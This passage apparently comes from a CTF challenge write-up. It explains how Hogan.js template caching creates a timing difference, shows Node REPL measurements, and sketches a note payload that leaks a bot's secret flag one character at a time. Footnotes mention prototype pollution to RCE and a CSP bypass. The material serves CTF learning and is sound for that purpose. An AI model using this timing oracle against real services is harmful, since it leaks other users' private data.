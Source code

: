 If the `text` was already evaluated, the engine skips the compile process for `text` and uses the cached value as a compiled result.

In REPL of Node.js, let's confirm the cache effect:
```javascript
> const Hogan = require("hogan.js");
undefined
>
> const render = (text, context = {}) => {
...   const sanitized = text.replace(/[#\^<\$\/!>=&]/g, "");
...   const rendered = Hogan.compile(sanitized).render(context);
...   return rendered;
... };
undefined
>
> const measure = (f) => {
...   const start = performance.now();
...   f();
...   const end = performance.now();
...   return end - start;
... };
undefined

> measure(() => render("{{x}}{{x}}{{x}}a"))
1.5557399988174438
> measure(() => render("{{x}}{{x}}{{x}}a"))
0.09384399652481079
> measure(() => render("{{x}}{{x}}{{x}}b"))
0.8712370097637177
> measure(() => render("{{x}}{{x}}{{x}}b"))
0.11031201481819153

> measure(() => render("{{x}}{{x}}{{x}}".repeat(10000) + "a"))
1345.8155919909477
> measure(() => render("{{x}}{{x}}{{x}}".repeat(10000) + "a"))
20.339904010295868
> measure(() => render("{{x}}{{x}}{{x}}".repeat(10000) + "b"))
1170.0819569826126
> measure(() => render("{{x}}{{x}}{{x}}".repeat(10000) + "b"))
7.888740986585617
```

The rendering time depends largely on whether cache is used or not. Is it possible to use the difference as an oracle to leak `notes[i]`, which is the `i`-th character in the flag string?

To construct the oracle, you need to let the bot render the following `text` as a note:

```javascript
const i = /* An index `i` where you want to leak the i-th character */;
const user = /* A User object of the bot */;
const text = `${i}-${user.getNotes()[i]}-${"{{x}}".repeat(20000)}`;
```

Btw, the `deleteNote` function uses `Array.prototype.splice` to delete a note:
```javascript
  deleteNote(index) {
    if (
      typeof index !== "number" ||
      Number.isNaN(index) ||
      index < 0 ||
      index >= this.#locals.notes.length
    ) {
      throw new Error("Failed to delete a note");
    }
    this.#locals.notes.splice(index, 1);
  }
```

[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br>ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br>E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br>ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell